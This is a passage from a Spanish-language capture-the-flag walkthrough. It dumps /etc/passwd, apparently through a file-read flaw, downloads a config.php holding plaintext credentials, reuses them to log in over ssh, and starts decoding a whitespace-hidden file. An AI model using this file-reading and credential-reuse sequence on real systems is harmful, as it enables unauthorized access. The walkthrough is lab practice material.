 ```
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
kira:x:1000:1000:kira:/home/kira:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
bassam:x:1001:1001::/home/bassam:/bin/sh
test:x:1002:1002::/home/test:/bin/sh
```

Pero si metemos el `/config.php` que nos encontramos con `gobuster` el cual puede contener credenciales, tambien nos lo descargara...

```php
<?php
$user='test';
$pass='test123';
?>
```

Por lo que vemos nos da unas credenciales...

Si pobramos eso a conectarnos por `ssh` veremos que son las credenciales validas...

```shell
ssh test@<IP>
```

Y metiendo la contraseña ya estariamos dentro...

Si nos vamos a la siguiente ubicacion...

```shell
cd /var/www/ctf
```

Veremos un archivo llamado `MySecretPassword` pero si lo vemos con `cat` solo veremos espacion y nada asi interesante, por lo que podria ser un mensaje codificado en espacios y tiene que ser interpretado mediante un patron...

```shell
cat -A MySecretPassword
```

Info:

```
                                                                                                           $
                                                                                                         $
                                                                                                                  $
                                                                                                 $
                                                  $
                                                $
                                                $
                                                   $
```
